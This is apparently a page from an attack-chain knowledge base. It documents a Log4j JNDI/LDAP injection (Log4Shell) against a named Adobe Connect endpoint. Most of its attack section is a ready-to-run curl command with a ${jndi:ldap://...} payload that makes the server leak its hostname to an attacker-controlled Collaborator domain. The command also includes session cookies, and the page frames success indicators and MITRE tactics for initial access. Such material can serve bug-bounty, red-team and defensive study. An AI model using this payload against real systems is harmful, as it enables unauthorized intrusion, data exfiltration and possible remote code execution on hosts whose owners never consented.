

---

# Log4j JNDI LDAP Injection for Remote Code Execution on Adobe Connect

Multi-stage attack chain demonstrating exploitation of Log4j vulnerability in Adobe Connect for remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]

### Target Environment

- Web platform running Adobe Connect
- Java-based application using Log4j versions <= 2.14.1
- Accessible HTTPS endpoint (e.g., https://beta.dev.adobeconnect.com/)
- Open outbound network access for LDAP/DNS from the target

### Initial Access Requirements

- No credentials required
- Direct network access to the target web server
- No prior access needed; public-facing application

## Detailed Attack Procedures

### Step 1: Trigger JNDI Lookup
procedure: [[procedures/Trigger-Log4j-JNDI-Lookup-via-Malicious-Query-Parameter]]

**Objective**: Send a crafted HTTP GET request to the target endpoint with a malicious JNDI payload in the query parameter, causing the server to log the input and perform an LDAP lookup to the attacker's controlled domain, confirming vulnerability and enabling RCE.

**Instructions**: Use a tool like curl or Burp Suite to send the request. First, set up Burp Collaborator to monitor for interactions. Then execute the malicious request using [[commands/send-malicious-get-with-jndi-payload]]:

```bash
curl -X GET "https://beta.dev.adobeconnect.com/?x=\${jndi:ldap://\${hostName}.attacker.burpcollaborator.net/a}" -H "Host: beta.dev.adobeconnect.com" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate" -H "Connection: close" -H "Cookie: BREEZESESSION=breezdiekv3smcc2xdw3u; BreezeCCookie=conn-BZTI-9BM9-2M7O-HWCG-XCF2-KDFT-KN7O-Y78S" -H "Upgrade-Insecure-Requests: 1" -H "Sec-Fetch-Dest: document" -H "Sec-Fetch-Mode: navigate" -H "Sec-Fetch-Site: none" -H "Sec-Fetch-User: ?1"
```

Monitor Burp Collaborator for inbound DNS resolution or LDAP connection from the target server.

**Expected Output**: HTTP 200 OK response from the server, and confirmation in Burp Collaborator of an outbound interaction (e.g., DNS lookup to attacker subdomain).

**Success Indicators**:
- Server responds without error
- Burp Collaborator detects DNS/HTTP/LDAP interaction from target IP
- No immediate server-side errors indicating patching

## Attack Chain Summary

### Key Achievements

1. Confirmed Log4j vulnerability via out-of-band interaction
2. Demonstrated potential for remote code execution through LDAP reference
3. Highlighted risks in logging user-controlled input in Java web apps

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
